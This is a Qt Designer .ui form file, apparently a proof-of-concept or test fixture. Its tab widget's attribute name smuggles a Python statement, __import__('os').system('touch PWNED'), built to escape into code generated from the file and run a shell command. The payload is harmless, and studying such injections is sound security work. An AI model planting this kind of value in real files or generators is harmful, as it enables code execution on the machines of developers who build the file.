
<?xml version="1.0" encoding="UTF-8"?>
<ui version="4.0">
 <class>Form</class>
 <widget class="QWidget" name="Form">
  <layout class="QVBoxLayout" name="lay">
   <item>
    <widget class="QPushButton" name="btn">
     <property name="text"><string>BODY</string></property>
    </widget>
   </item>
   <item>
    <widget class="QTabWidget" name="tw"><widget class="QWidget" name="pg"><attribute name='title); __import__("os").system("touch PWNED"); (x'><string>T</string></attribute></widget></widget>
   </item>
  </layout>
 </widget>
 <resources/>
 <connections/>
</ui>
